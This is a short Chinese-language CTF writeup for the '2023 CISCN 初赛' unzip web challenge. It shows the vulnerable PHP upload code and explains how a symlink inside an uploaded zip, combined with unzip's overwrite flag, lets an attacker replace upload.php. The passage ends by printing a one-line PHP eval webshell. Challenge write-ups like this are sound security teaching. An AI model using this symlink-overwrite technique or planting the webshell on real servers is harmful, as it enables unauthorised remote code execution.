```yaml
---
title: "2023 CISCN 初赛 Web Writeup"
date: 2023-05-29T09:23:33+08:00
lastmod: 2023-05-29T09:23:33+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


跟 defcon 时间冲了, 抽空随便打的 (



## unzip

```php
<?php
error_reporting(0);
highlight_file(__FILE__);

$finfo = finfo_open(FILEINFO_MIME_TYPE);
if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
    exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
};

//only this!
```

unzip 命令没有 zip slip 的问题

但因为是压缩包, 所以可以传软连接 (参考 2022 MTCTF OnlineUnzip)

注意到执行 unzip 的时候有个 `-o` 参数, 即默认允许覆盖文件

所以考虑先创建一个指向 `/var` 目录的软连接 `test`, 本地压缩好后放到网站上解压

然后上传同名的 upload.php 解压到` /tmp/test/www/html/`, 覆盖原来的 upload.php 为 webshell

upload.php

```php
<?php eval($_REQUEST[1]);phpinfo();?>
```
